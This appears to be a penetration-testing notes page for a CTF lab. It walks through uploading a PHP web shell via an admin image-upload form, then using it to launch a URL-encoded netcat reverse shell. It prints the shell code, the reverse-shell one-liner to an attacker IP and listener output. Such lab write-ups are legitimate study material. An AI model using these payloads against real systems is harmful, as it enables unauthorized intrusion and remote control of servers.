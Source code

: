```yaml
---
layout: default
title: PHP Web Shell
parent: Shells
nav_order: 1
---
```


# PHP Web Shell

---

## Generic PHP Web Shell File Upload to LFI Reverse Shell

Authenticate to _admin.php_ portal with discovered credentials.

![auth](../../../../assets/images/ctfs/proving_grounds/funboxeasy/auth.png)

Edit a book...

![edit](../../../../assets/images/ctfs/proving_grounds/funboxeasy/edit.png)

Upload a PHP command shell file using the Image file option.

![upload](../../../../assets/images/ctfs/proving_grounds/funboxeasy/upload.png)

```bash
# Create file test.php with the following web shell code

<?php
echo "<pre>";
passthru($_GET['cmd']);
echo "</pre>";
?>

```

Images are placed in the _/img_ directory.
Test PHP shell RCE functionality.

![cmd](../../../../assets/images/ctfs/proving_grounds/funboxeasy/cmd.png)

Now that we have a PHP command shell uploaded let get a revere shell.

Use _revshellgen_ and _urlencode_ to get a url encoded mk-nod reverse shell one-liner.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funboxeasy]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod | tail -n 1
rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funboxeasy]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

```

Run the reverse shell one-liner and get a reverse shell on our netcat listener.

```bash
URL: 192.168.222.111/store/bootstrap/img/test.php?cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl
```

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funboxeasy]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.222.111] 39914
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
